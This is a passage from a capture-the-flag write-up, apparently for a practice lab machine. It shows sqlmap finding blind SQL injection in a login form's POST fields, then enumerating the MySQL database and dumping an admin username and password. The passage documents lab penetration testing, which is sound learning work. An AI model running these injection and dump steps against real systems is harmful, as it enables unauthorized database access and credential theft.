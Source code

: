 ```
---
there were multiple injection points, please select the one to use for following injections:
[0] place: POST, parameter: username, type: Single quoted string (default)
[1] place: POST, parameter: password, type: Single quoted string
[q] Quit
> 0
[15:38:07] [INFO] testing MySQL
[15:38:07] [INFO] confirming MySQL
[15:38:07] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.0
[15:38:07] [INFO] fetched data logged to text files under '/home/noraj/.sqlmap/output/10.10.10.185'
```

Nice we have 2 injection points for our OR boolean-based blind SQL injection.

Now I'll some options to get more information:

- `--current-user` -> `theseus@localhost`
- `--current-db` -> `Magic`
- `--hostname` -> `ubuntu`
- `--is-dba` -> `False`
- `--tables -D Magic` -> `login`
- `-D Magic -T login --columns` ->
    ```
    +----------+--------------+
    | Column   | Type         |
    +----------+--------------+
    | id       | int(6)       |
    | password | varchar(100) |
    | username | varchar(50)  |
    +----------+--------------+
    ```
- `-D Magic -T login --dump` ->
    ```
    +------+----------+----------------+
    | id   | username | password       |
    +------+----------+----------------+
    | 1    | admin    | Th3s3usW4sK1ng |
    +------+----------+----------------+
    ```

Note: We could have done a dump directly but that would have been dirty and far
less efficient if there were more databases, tables, entries, etc. Also we
probably didn't needed to dump the password, we could have just bypass the
authentication. But the password may be reused somewhere else and there could
have been more stuff in the DB.

## File upload
